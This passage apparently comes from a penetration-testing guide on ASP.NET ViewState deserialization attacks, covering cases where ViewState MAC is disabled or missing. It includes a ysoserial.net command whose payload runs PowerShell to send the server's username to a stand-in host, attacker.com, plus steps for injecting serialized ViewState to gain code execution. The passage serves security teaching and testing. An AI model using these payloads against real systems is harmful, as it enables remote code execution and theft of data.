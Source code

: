 ### Test Case: 1 – EnableViewStateMac=false and viewStateEncryptionMode=false

It is also possible to disable the ViewStateMAC completely by setting the `AspNetEnforceViewStateMac` registry key to zero in:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\.NETFramework\v{VersionHere}
```

**Identifying ViewState Attributes**

You can try to identify if ViewState is MAC protected by capturing a request containing this parameter with BurpSuite:

![](https://notsosecure.com/sites/all/assets/group/nss\_uploads/2019/06/1.0.png)

If Mac is not used to protect the parameter you can exploit it using [**YSoSerial.Net**](https://github.com/pwntester/ysoserial.net).

```
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/$env:UserName"
```

### Test case 1.5 – Like Test case 1 but the ViewState cookie isn't sent by the server

Developers can **remove ViewState** from becoming part of an HTTP Request (the user won't receive this cookie).\
One may assume that if **ViewState** is **not present**, their implementation is **secure** from any potential vulnerabilities arising with ViewState deserialization.\
However, that is not the case. If we **add ViewState parameter** to the request body and send our serialized payload created using ysoserial, we will still be able to achieve **code execution** as shown in **Case 1**.

### Test Case: 2 – .Net < 4.5 and EnableViewStateMac=true & ViewStateEncryptionMode=false

In order to **enable ViewState MAC** for a **specific page** we need to make following changes on a specific aspx file:

```bash
<%@ Page Language="C#" AutoEventWireup="true" CodeFile="hello.aspx.cs" Inherits="hello" enableViewStateMac="True"%>
```

We can also do it for **overall** application by setting it on the **web.config** file as shown below:

```markup
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
<system.web>
<customErrors mode="Off" />
 <machineKey validation="SHA1" validationKey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45" />
 <pages enableViewStateMac="true" />
</system.web>
</configuration>
```
